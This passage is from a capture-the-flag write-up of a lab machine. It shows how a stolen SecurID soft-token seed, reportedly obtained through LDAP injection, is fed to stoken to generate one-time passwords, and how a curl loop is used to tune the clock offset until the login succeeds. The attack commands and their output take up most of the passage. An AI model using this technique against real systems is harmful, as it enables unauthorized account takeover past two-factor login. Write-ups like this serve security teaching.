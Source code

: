 After adjusting for timezone, I see there’s a different of around 8 minutes.

#### Generate OTP

Now I’ll use `stoken` with the following options to get the OTP:
- `--token=285...` - the seed I got through LDAP injection
- `--use-time=480` - the offset in seconds between my clock and the server
- `--pin=0000` - I don’t have a pin value, and the man page says to use “0000” in that case

```

root@kali# stoken --token=285449490011357156531651545652335570713167411445727140604172141456711102716717000 --use-time=-480 --pin=0000
41663033

```

#### Adjust Time

Just guessing around 8 minutes got me close, but I noticed sometimes I got errors just after the minute changes. I ran a loop to check how many seconds I was off:

```

root@kali# for i in {1..100}; do d=$(date); echo -n $d; curl -vv -s http://10.10.10.122/login.php -d "inputUsername=ldapuser&inputOTP=$(stoken --token=2854494900
11357156531651545652335570713167411445727140604172141456711102716717000 --use-time=-480 --pin=0000)" 2>&1 | grep 302; sleep 1; done  
Sun Feb 10 11:39:54 EST 2019< HTTP/1.1 302 Found
Sun Feb 10 11:39:56 EST 2019< HTTP/1.1 302 Found
Sun Feb 10 11:39:57 EST 2019< HTTP/1.1 302 Found
Sun Feb 10 11:39:58 EST 2019< HTTP/1.1 302 Found
Sun Feb 10 11:39:59 EST 2019< HTTP/1.1 302 Found
Sun Feb 10 11:40:00 EST 2019Sun Feb 10 11:40:01 EST 2019Sun Feb 10 11:40:03 EST 2019Sun Feb 10 11:40:04 EST 2019Sun Feb 10 11:40:05 EST 2019Sun Feb 10 11:40:06 EST 2019Sun Feb 10 11:40:07 EST 2019Sun Feb 10 11:40:09 EST 2019Sun Feb 10 11:40:10 EST 2019Sun Feb 10 11:40:11 EST 2019Sun Feb 10 11:40:12 EST 2019Sun Feb 10 11:40:13 EST 2019Sun Feb 10 11:40:15 EST 2019Sun Feb 10 11:40:16 EST 2019< HTTP/1.1 302 Found
Sun Feb 10 11:40:17 EST 2019< HTTP/1.1 302 Found
Sun Feb 10 11:40:18 EST 2019< HTTP/1.1 302 Found
Sun Feb 10 11:40:19 EST 2019< HTTP/1.1 302 Found
Sun Feb 10 11:40:21 EST 2019< HTTP/1.1 302 Found
Sun Feb 10 11:40:22 EST 2019< HTTP/1.1 302 Found
^C

```

I checked this a couple times, and it consistently failed to get a 302 from :00 through :14 or :15. So I changed my offset by 15 seconds, and then it worked beautifully.

```

root@kali# for i in {1..100}; do d=$(date); echo -n $d; curl -vv -s http://10.10.10.122/login.php -d "inputUsername=ldapuser&inputOTP=$(stoken --token=285449490011357156531651545652335570713167411445727140604172141456711102716717000 --use-time=-495 --pin=0000)" 2>&1 | grep 302; sleep 1; done
Sun Feb 10 11:42:54 EST 2019< HTTP/1.1 302 Found
Sun Feb 10 11:42:55 EST 2019< HTTP/1.1 302 Found
Sun Feb 10 11:42:56 EST 2019< HTTP/1.1 302 Found
Sun Feb 10 11:42:58 EST 2019< HTTP/1.1 302 Found
Sun Feb 10 11:42:59 EST 2019< HTTP/1.1 302 Found
Sun Feb 10 11:43:00 EST 2019< HTTP/1.1 302 Found
Sun Feb 10 11:43:01 EST 2019< HTTP/1.1 302 Found
Sun Feb 10 11:43:02 EST 2019< HTTP/1.1 302 Found
Sun Feb 10 11:43:03 EST 2019< HTTP/1.1 302 Found
Sun Feb 10 11:43:05 EST 2019< HTTP/1.1 302 Found
Sun Feb 10 11:43:06 EST 2019< HTTP/1.1 302 Found
Sun Feb 10 11:43:07 EST 2019< HTTP/1.1 302 Found
```